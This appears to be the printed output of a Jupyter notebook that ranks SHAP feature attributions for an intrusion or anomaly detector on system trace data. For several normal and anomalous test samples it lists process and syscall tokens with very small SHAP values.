


🔍 Analyzing [NORMAL] | Test Index: 40581
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
              colord           -0.000005
              x86_64           -0.000002
                 gnu           -0.000002
               event           -0.000001
               linux           -0.000001
                 and           -0.000001
             recvmsg           -0.000000
                mmap           -0.000000
                 usr           -0.000000
              python           -0.000000
             fluxbox           -0.000000
             firefox           -0.000000
                open           +0.000000
                sshd           +0.000000
                sbin           +0.000000
            postgres           +0.000000
                bash           +0.000000
                 apt           +0.000001
              config           +0.000001
            datetime           +0.




🔍 Analyzing [NORMAL] | Test Index: 38823
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
              colord           -0.000005
              x86_64           -0.000002
                 gnu           -0.000002
               linux           -0.000001
               event           -0.000001
                 and           -0.000000
                mmap           -0.000000
             recvmsg           -0.000000
              python           -0.000000
                 usr           -0.000000
               clone           -0.000000
             firefox           -0.000000
                  na           -0.000000
                sshd           +0.000000
                sbin           +0.000000
            postgres           +0.000000
                bash           +0.000000
                 apt           +0.000000
              config           +0.000000
            datetime           +0.




🔍 Analyzing [NORMAL] | Test Index: 31494
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
              colord           -0.000005
              x86_64           -0.000002
                 gnu           -0.000002
               linux           -0.000001
               event           -0.000000
                 and           -0.000000
           indicator           -0.000000
                 usr           -0.000000
             recvmsg           -0.000000
              python           -0.000000
                mmap           -0.000000
               clone           -0.000000
             service           -0.000000
                  sh           +0.000000
            mprotect           +0.000000
                sbin           +0.000000
          executable           +0.000000
                sshd           +0.000001
                bash           +0.000001
            datetime           +0.




🔍 Analyzing [NORMAL] | Test Index: 5616
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
              colord           -0.000004
                 gnu           -0.000002
              x86_64           -0.000001
               event           -0.000001
               linux           -0.000001
                 and           -0.000000
                mmap           -0.000000
                 usr           -0.000000
           indicator           -0.000000
             recvmsg           -0.000000
               clone           -0.000000
              python           -0.000000
                 lib           -0.000000
                sshd           +0.000000
             execute           +0.000000
            postgres           +0.000000
          bluetoothd           +0.000000
                bash           +0.000000
                stat           +0.000001
            datetime           +0.0




🔍 Analyzing [NORMAL] | Test Index: 2579
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
              colord           -0.000004
                 gnu           -0.000002
              x86_64           -0.000001
               event           -0.000001
                 and           -0.000001
               linux           -0.000001
                mmap           -0.000000
             recvmsg           -0.000000
              python           -0.000000
               clone           -0.000000
           indicator           -0.000000
            mprotect           -0.000000
           attribute           -0.000000
             sendmsg           +0.000000
                  sh           +0.000000
                sbin           +0.000000
                read           +0.000000
                bash           +0.000000
             fluxbox           +0.000001
            datetime           +0.0




████████████████████████████████████████████████████████████████████████████████
🚀 PROCESSING SHAP FOR PERFORMER: TRACE
████████████████████████████████████████████████████████████████████████████████

🔍 Analyzing [ANOMALY] | Test Index: 56412
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
                  sh           -0.000001
             firefox           -0.000001
           attribute           -0.000000
                read           -0.000000
                 lib           -0.000000
            mprotect           -0.000000
         loadlibrary           -0.000000
               clone           -0.000000
           logrotate           -0.000000
                 run           -0.000000
                 and           +0.000000
             python3           +0.000000
                 apt           +0.000001
                bash           +0.000001
              config           +0.00




🔍 Analyzing [ANOMALY] | Test Index: 56420
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
             network           -0.000001
             execute           -0.000001
           logrotate           -0.000001
                 run           -0.000000
                  64           -0.000000
                 env           -0.000000
               parts           -0.000000
             sendmsg           +0.000000
              config           +0.000000
                 apt           +0.000000
                exit           +0.000000
                  68           +0.000000
    change_principal           +0.000001
                fork           +0.000001
             python3           +0.000001
                bash           +0.000001
              update           +0.000001
               event           +0.000001
         thunderbird           +0.000001
                 and           +0




🔍 Analyzing [ANOMALY] | Test Index: 56434
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
  Token (Feature Name) SHAP Value (Impact)
               network           -0.000002
modify_file_attributes           -0.000001
                  read           -0.000001
             logrotate           -0.000000
                update           -0.000000
               firefox           -0.000000
                    64           -0.000000
                 write           -0.000000
                 parts           -0.000000
                   run           -0.000000
                   bin           +0.000000
      change_principal           +0.000000
                   usr           +0.000000
                config           +0.000000
                   apt           +0.000000
                  fork           +0.000000
                   and           +0.000001
               python3           +0.000001
                 event           +0.




🔍 Analyzing [ANOMALY] | Test Index: 56413
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
             network           -0.000003
           logrotate           -0.000001
                 run           -0.000000
               parts           -0.000000
             execute           -0.000000
                read           -0.000000
                  64           -0.000000
              config           +0.000000
                 usr           +0.000000
                fork           +0.000000
    change_principal           +0.000000
                 apt           +0.000000
             firefox           +0.000000
                exit           +0.000001
          executable           +0.000001
             python3           +0.000001
                bash           +0.000001
               event           +0.000001
                 and           +0.000001
         thunderbird           +0




🔍 Analyzing [ANOMALY] | Test Index: 56441
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
              tcexec           -0.000004
           logrotate           -0.000000
               parts           -0.000000
                 run           -0.000000
                  64           -0.000000
               write           -0.000000
                  35           -0.000000
         loadlibrary           -0.000000
                 env           -0.000000
              config           +0.000000
    change_principal           +0.000000
               close           +0.000000
                 bin           +0.000000
                open           +0.000000
             python3           +0.000000
                exit           +0.000000
                bash           +0.000001
               event           +0.000001
         thunderbird           +0.000001
                 and           +0




🔍 Analyzing [NORMAL] | Test Index: 10323
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
               xfce4           -0.000002
           appfinder           -0.000002
             network           -0.000001
                read           -0.000001
           logrotate           -0.000001
               parts           -0.000000
                 run           -0.000000
           attribute           -0.000000
                  64           -0.000000
                 bin           +0.000000
             recvmsg           +0.000000
                 apt           +0.000000
              config           +0.000000
                fork           +0.000000
    change_principal           +0.000000
             python3           +0.000000
                bash           +0.000000
               event           +0.000001
                 and           +0.000001
         thunderbird           +0.

